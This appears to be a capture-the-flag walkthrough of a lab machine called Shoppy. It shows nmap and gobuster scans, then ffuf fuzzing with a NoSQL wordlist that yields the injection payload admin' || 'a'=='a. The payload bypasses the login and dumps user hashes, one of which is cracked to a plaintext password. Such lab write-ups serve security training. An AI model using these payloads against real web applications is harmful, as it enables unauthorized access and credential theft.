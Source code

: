# SHOPPY WALKTHROUGH

## 1 - Scan ports


command:

```
nmap -sV -sT -sC 10.129.207.108
```
result:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-20 20:02 -03
Nmap scan report for shoppy.htb (10.129.207.108)
Host is up (0.23s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-title:             Shoppy Wait Page        
|_http-server-header: nginx/1.23.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 2 - Directory enumeration

command:

```
gobuster dir -u http://shoppy.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

result:

```
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shoppy.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/20 20:42:13 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 179] [--> /images/]
/login                (Status: 200) [Size: 1074]              
/admin                (Status: 302) [Size: 28] [--> /login]   
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]   
/Login                (Status: 200) [Size: 1074]              
/js                   (Status: 301) [Size: 171] [--> /js/]    
/fonts                (Status: 301) [Size: 177] [--> /fonts/] 
/Admin                (Status: 302) [Size: 28] [--> /login]
```


## 2 - Exploit Login page

Nosql injection was used  to this case 

command inside the directory of ffuf after cloned it from github:


```
./ffuf -u http://shoppy.htb/login -c -w /usr/share/seclists/Fuzzing/Databases/NoSQL.txt -X POST -d 'username=adminFUZZ&password=admin' -H 'Content-Type: application/x-www-form-urlencoded'
```

result:

```
:: Progress: [22/22] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors:' || 'a'=='a            [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 453ms]
```

used the payload in the username field 

 ```
admin' || 'a'=='a
```

 and any value in the password field.

## 3 - Exploit search for users page

http://shoppy.htb/admin/search-users

used the same payload in the field search:

 ```
admin' || 'a'=='a
```

it returnd me a json file to download with the following credentials:

```
[{"_id":"62db0e93d6d6a999a66ee67a","username":"admin","password":"23c6877d9e2b564ef8b32c3a23de27b2"},{"_id":"62db0e93d6d6a999a66ee67b","username":"josh","password":"6ebcea65320589ca4f2f1ce039975995"}]
```

cracked josh password(md5)(https://crackstation.net/): ```remembermethisway```

## 4 - DNS Enumeration ???

command:

```
./ffuf -u http://shoppy.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.shoppy.htb"
```

result: didn`t work =/
